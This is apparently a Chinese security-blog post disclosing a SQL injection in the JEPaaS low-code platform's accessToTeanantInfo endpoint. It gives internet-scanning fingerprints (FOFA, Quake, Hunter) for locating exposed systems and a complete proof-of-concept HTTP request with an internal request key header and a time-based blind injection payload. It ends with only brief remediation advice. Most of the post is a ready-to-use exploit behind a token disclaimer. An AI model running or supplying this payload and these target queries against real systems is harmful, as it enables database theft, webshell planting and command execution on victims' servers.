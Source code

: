 **免责声明**

本文仅用于技术讨论与学习，利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者及本公众号团队不为此承担任何责任。

**漏洞描述**

JEPaaS 低代码平台 accessToTeanantInfo SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

**空间测绘**

测绘语法：



```
Fofa：icon_hash="-999810473"
quake：favicon: "cebfb3e5342abd7b01618a0cfbbe0377"
hunter：web.icon="cebfb3e5342abd7b01618a0cfbbe0377"
```

**漏洞复现**

1.SQL注入点POI数据包如下：

```yaml

POST /rbac/im/accessToTeanantInfo HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
internalRequestKey: schedule_898901212
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

tenantId=1' AND (SELECT 2805 FROM (SELECT(SLEEP(5)))moYz)-- sBPi
```

**修复意见**

1、请联系厂商进行修复。 

2、如非必要，禁止公网访问该系统。

3、设置白名单访问。